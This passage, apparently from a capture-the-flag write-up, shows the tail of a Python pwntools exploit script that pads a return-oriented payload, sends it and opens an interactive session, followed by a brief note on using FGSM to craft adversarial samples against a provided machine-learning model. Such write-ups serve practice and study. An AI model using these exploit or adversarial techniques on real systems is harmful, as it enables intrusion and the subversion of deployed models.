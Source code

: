 ```python
    p64(ret) * ( (0x418 - len( migrate(0) )) / 8 ),
)

print hex(len(p))

y.sendafter( ':' , p.ljust( 0x10000 , '\0' ) )


y.interactive()
```
### Neuron Break
This task provides the model and the inputs.
We use FGSM (Fast Gradient Sign Method) with step 0.1 to generate adversarial samples.
